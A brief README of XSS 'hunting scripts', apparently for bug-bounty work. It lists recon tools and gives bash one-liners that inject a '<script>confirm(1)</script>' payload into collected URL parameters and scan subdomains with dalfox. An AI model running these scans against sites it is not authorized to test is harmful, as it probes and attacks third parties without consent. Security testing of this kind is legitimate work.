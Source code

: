 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf

https://github.com/tomnomnom/waybackurls

https://github.com/lc/gau

https://github.com/tomnomnom/qsreplace

https://github.com/projectdiscovery/httpx

https://github.com/tomnomnom/httprobe

https://github.com/tomnomnom/anew

https://github.com/devanshbatham/ParamSpider

https://github.com/hahwul/dalfox

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat domains.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host" ; done
```

## Find and testing XSS with Dalfox

```bash
subfinder -d domain.com -silent | httpx -l subdomains -silent | dalfox pipe -F -S
```
